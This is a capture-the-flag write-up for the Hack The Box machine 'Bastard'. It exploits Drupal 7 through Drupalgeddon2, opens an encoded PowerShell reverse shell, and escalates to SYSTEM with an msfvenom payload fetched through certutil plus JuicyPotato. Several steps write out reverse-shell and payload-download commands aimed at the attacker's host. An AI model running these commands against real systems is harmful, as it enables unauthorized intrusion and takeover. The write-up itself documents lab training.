<div align="center">



</div>

## 📌 Overview

Bastard is a medium Windows machine on Hack The Box. It runs Drupal 7 on IIS — an old, unpatched CMS with two well-known remote code execution CVEs. The initial foothold comes from Drupalgeddon2 (CVE-2018-7600), an unauthenticated RCE that gives you a shell without needing any credentials. Privilege escalation follows the same pattern as other old Windows boxes — SeImpersonatePrivilege is enabled, the OS is Server 2008 R2, and JuicyPotato takes it to SYSTEM.

What makes Bastard interesting is the path to the shell. The web directories are not writable, and the raw PowerShell reverse shell gets blocked by a bad character filter in the drupalgeddon2 shell. The fix — encoding the command in UTF-16LE base64 — is a technique that comes up constantly on Windows boxes. The privilege escalation also teaches an important lesson: the same SeImpersonatePrivilege exploit requires a different tool depending on the OS version.

## 🧭 Walkthrough

## Step 1 — Nmap Reconnaissance

Started with a fast full port scan:

```bash
nmap -p- --min-rate 5000 -Pn 10.129.33.17
```



Three ports open:

```
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown
```

Port 80 is the target. Port 135 and 49154 are standard Windows RPC — expected and not interesting. Ran the detailed version scan:

```bash
nmap -T4 -sV -A -Pn 10.129.33.17
```



The scan immediately fingerprints what is running:

```
80/tcp — Microsoft IIS httpd 7.5
         http-generator: Drupal 7
         http-title: Welcome to Bastard | Bastard
```

Nmap found `http-generator: Drupal 7` in the HTTP headers. IIS 7.5 on Windows. The version is in the scan output before we even open a browser.

---

## Step 2 — Web Enumeration

Browsed to `http://10.129.33.17`:



A Drupal site. Login form on the left, no front page content. Wappalyzer confirms the full stack:



Drupal 7, PHP 5.3.28, Microsoft ASP.NET, IIS 7.5, Windows Server. Every piece of the technology stack confirmed in one click.

Navigating to `/user` shows the login page:



"Powered by Drupal" at the bottom — version 7 confirmed. Tried creating an account to see if Drupalgeddon3 (authenticated RCE) was an option:



Account creation requires admin approval — the account goes into a pending state. The unauthenticated path is the correct approach.

---

## Step 3 — Identifying the Vulnerability

Drupal 7 has a critical unauthenticated RCE: **CVE-2018-7600 (Drupalgeddon2)**. It abuses a flaw in the form rendering subsystem that allows injecting PHP code through a form parameter without any authentication.

Searched for it locally:

```bash
searchsploit drupalgeddon2
```

Three results came back. The important distinction:

- `php/webapps/44449.rb` — Drupal < 7.58 and < 8.x — **this is the one for Drupal 7**
- `php/remote/44482.rb` — Drupal < 8.x only
- `php/webapps/44448.py` — Drupal < 8.x only

The Ruby script is the correct one for this machine. Copy it and install the missing dependency:

```bash
searchsploit -m php/webapps/44449.rb
gem install highline
```

---

## Step 4 — Initial Shell via Drupalgeddon2

Ran the exploit:

```bash
ruby 44449.rb http://10.129.33.17/
```

The exploit confirmed code execution but could not write a webshell anywhere — all web directories returned 404 on write:



The exploit drops into a `drupalgeddon2>>` prompt. This is a blind shell — commands run on the target but there is no webshell to return output. Attempting a raw PowerShell reverse shell failed immediately:



`[!] WARNING: Detected an known bad character (>)` — the `>` in the PowerShell command is flagged and the shell times out.

---

## Step 5 — Encoded PowerShell Reverse Shell

The fix for the bad character problem is encoding the PowerShell command in UTF-16LE base64. PowerShell's `-EncodedCommand` flag accepts this format — no special characters pass through the exploit at all.

Generated the encoded command on Kali:

```bash
echo -n '$client = New-Object System.Net.Sockets.TCPClient("10.10.17.9",4433);...' | iconv -t UTF-16LE | base64 -w 0
```



Two things matter here: `echo -n` removes the trailing newline, and `iconv -t UTF-16LE` converts the string to UTF-16LE before base64 encoding. Plain base64 without the iconv step will not work — PowerShell specifically expects UTF-16LE.

Started a netcat listener on port 4433, then in the drupalgeddon2 prompt:

```
drupalgeddon2>> powershell -EncodedCommand <BASE64HERE>
```



The listener caught the connection:

```
connect to [10.10.17.9] from (UNKNOWN) [10.129.33.17] 54827

PS C:\inetpub\drupal-7.54> whoami
nt authority\iusr
```

Shell as `nt authority\iusr` — the IIS anonymous user account.

---

## Step 6 — User Flag

Navigated to the user's Desktop:

```powershell
cd C:\Users\dimitris\Desktop
type user.txt
```



```
7ad6a3c209002bd653e6ae0046a0cb53
```

---

## Step 7 — Privilege Escalation Enumeration

First thing in any Windows shell — check privileges:

```powershell
whoami /priv
```



```
SeImpersonatePrivilege    Impersonate a client after authentication    Enabled
```

`SeImpersonatePrivilege` is **Enabled**. The entire escalation path is decided by this one line.

Confirmed the OS version:

```powershell
systeminfo
```



```
OS Name:    Microsoft Windows Server 2008 R2 Datacenter
OS Version: 6.1.7600 N/A Build 7600
```

Server 2008 R2. This matters. The two main tools for SeImpersonatePrivilege are PrintSpoofer and JuicyPotato — they are not interchangeable:

- **PrintSpoofer** — requires the Print Spooler coercion path. Only works on Server 2016/2019/2022 and Windows 10.
- **JuicyPotato** — uses COM server impersonation with a CLSID. Works on Server 2008 R2 and older.

This machine is Server 2008 R2. JuicyPotato is the correct tool.

---

## Step 8 — JuicyPotato
Downloaded JuicyPotato from the GitHub releases page:



Generated a reverse shell payload with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.17.9 LPORT=4445 -f exe -o shell.exe
```



Started a Python HTTP server to serve both files. The target downloaded JuicyPotato successfully:



Downloading to the target required finding a writable directory. The Desktop and `C:\Windows\Temp` both denied access:



The first shell.exe download attempt used a dot `.` as the output filename — certutil rejected it:



Fixed by providing an explicit filename:

```powershell
certutil -urlcache -f -split http://10.10.17.9/shell.exe shell.exe
```



Both files in `C:\inetpub\drupal-7.54`. The CLSID for Server 2008 R2 was found on the JuicyPotato GitHub CLSID list. Started a second listener on port 4445, then ran JuicyPotato with the CLSID in quotes to prevent PowerShell from interpreting the braces:

```powershell
.\jp.exe -t * -p C:\inetpub\drupal-7.54\shell.exe -l 9001 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```



```
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 9001
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```

`authresult 0` — success. The listener on port 4445 caught the connection:



```
connect to [10.10.17.9] from (UNKNOWN) [10.129.33.17] 54848
Microsoft Windows [Version 6.1.7600]

C:\Windows\system32>whoami
nt authority\system
```

SYSTEM.

---

## Step 9 — Root Flag

```powershell
cd C:\Users\Administrator\Desktop
type root.txt
```



```
e0f8c32f8bf1b137e9da434927b16b40
```

---

## 📌 Conclusion

**Always read nmap output before opening a browser.** The `http-generator: Drupal 7` header was in the nmap scan output. The version was known before a single browser request was made. Scan output contains technology fingerprints — read every line.

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

